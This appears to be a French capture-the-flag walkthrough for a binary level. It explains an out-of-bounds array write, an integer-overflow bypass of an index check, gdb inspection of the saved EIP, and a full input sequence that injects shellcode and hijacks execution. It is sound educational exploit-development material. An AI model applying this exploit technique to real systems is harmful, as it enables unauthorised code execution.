 Ce binaire etait plus difficile que les autres a exploiter.

Son fonctionnement est plutot simple : 
Il boucle a l'infini, en demandant une entree a l'utilisateur (a la maniere d'un shell). Il y a 3 commandes possibles : store, read et quit. 

store : Demande un index puis une valeur, puis stock la valeur a l'index indique.
read  : Demande un index puis lit la valeur a l'index indique.
quit  : ... :)

En desassemblant le binaire pour en savoir un peu plus, on peut noter plusieurs choses : 

Un test est effectue sur l'index que nous indiquons : if (index % 3 == 0) ...
Si ce test se revele etre vrai, alors un message d'erreur s'affiche nous indiquant que nous ne pouvons
pas stocker de nombre a cet index. Cela sera tres important pour la suite.

Nous voyons egalement que aucune verification n'est mise en place pour verifier la valeur que nous 
envoyons a store ou a read.
Ainsi, nous pouvons lire a des indexs ayant pour valeur une negative ou alors une valeur > 100 (le tableau de data faisant 100*4 bytes). ceci est egalement tres important pour la suite. 

Nous savons donc que nous pouvons ecrire ou nous voulons en memoire. Enfin presque, car le index % 3 nous complique la tache. Une maniere de le contourner est la suivant :

Lui passer une valeur >= au INT_MAX afin de recuperer uniquement la difference entre INT_MAX + x
Nous savons qu'en memoire notre valeur est multiplie par 4 car il s'agit d'un tableau de int (4 bytes).
Voici par exemple commnent ecrire a l'index 0 : 
4294967295 / 4 = 1073741823 + 1 = 1073741824. Avec cette valeur, nous pouvons ecrire a l'index 0 (data[0])
car 1073741824 % 3 == 1. Le test est donc respecte. Nous allons utiliser cette methode pour ecrire 
aux endroits "interdits" en memoire. 

J'ai donc decide d'ecraser la sauvegarde EIP du main. Pour cela, il suffit de la leaker :

	$ gdb level07
	$ b*main+455
	$ r
	$ store
	$ i f

	eip = 0x80488ea in main; saved eip 0xf7e45513


Maintenant, nous allons dumper notre stack avec read_number jusqu'a obtention de la valeur "0x80488ea"
qui correspond a EIP du main. 

En faisant plusieurs essai avec des valeurs > 100, on se rend compte que la sauvegarde d'EIP se trouve
a l'index 114 :

	$ ./level07
	$ read
	$ 114
	
	Number at data[114] is 4158936339     <--- 0xf7e45513

Par chance, l'index 114 etait rapide a trouver. Cependant j'ai quand meme creer un script d'automatisation (voir Ressources/find_eip.sh)


Maintenant que nous avons tous ces ellements, l'idee est de stockee l'adresse de notre shellcode a l'adresse
de data[0] puis d'ecraser sEIP avec l'adresse 0 de notre tableau data.
Le probleme, c'est que lors de l'execution du binaire, l'environement semble etre "efface". Le trick 
va donc etre de stocker notre shellcode (4 bytes par 4 bytes) dans les adresse de data[0] a data[5], puis, de sauter dessus en ecran sEIP par l'adresse de data[0], comme indique ci-dessus. 
Je rappel que nous ne pouvons pas ecrire a tous les index que nous souhaitons, nous allons donc parfois
devoir jouer avec l'overflow, comme indique au debut du walkthrough.

J'ai choisi le shellcode suivant (23 bytes) : http://shell-storm.org/shellcode/files/shellcode-827.php

Et voici notre exploit : 

		store
		1750122545        shellcode 1
		1073741824        data[0] via OF
		store
		1752379183	
		1
		store
		1768042344
		2
		store
		1357089134    
		1073741827				data[3] via OF
		store
		2967570771	
		4
		store
		8441099				
		5
		store
		4294956388				data[0] adresse
		1073741938				data[114] (save eip)
		quit
